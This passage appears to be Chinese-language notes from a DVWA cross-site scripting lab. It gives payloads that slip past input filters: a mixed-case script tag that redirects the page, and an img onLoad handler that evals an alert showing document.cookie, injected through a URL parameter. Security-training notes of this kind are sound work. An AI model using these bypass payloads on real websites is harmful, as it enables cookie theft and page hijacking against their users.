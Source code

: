 ```html
<sCript>location.href="https://1.1.1.1"</sCript>
```

這次後端顯然有過濾 Name 欄位

用  `img tag` + `onLoad` try try 看

Message 欄位也有過濾

```html
http://dvwa.localtest/vulnerabilities/xss_r/?name=<img src='https://picsum.photos/200/300' onLoad="eval(alert(document.cookie))">
```
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/4dd11fac-810c-4707-908d-ccfdfa2c3847/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220218%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220218T132704Z&X-Amz-Expires=86400&X-Amz-Signature=2c897d163839c872c74c5d54392b4df7c7c0e2e4246b48a811276ce266c18927&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

### Done

第一個欄位可以用 `img tag` + `onLoad` @@

```html
<img src='https://picsum.photos/200/300' onLoad="eval(alert(document.cookie))">
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/722737d7-ab33-4127-9209-7d97b8929a59/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220218%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220218T132552Z&X-Amz-Expires=86400&X-Amz-Signature=a658fce6d86138cf00e673a760d207348c05ba6479e443f57a7001129509ca82&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

運氣好有 try 到

原本還以為這關可能要使用 js 註解來迴避長度限制之類的
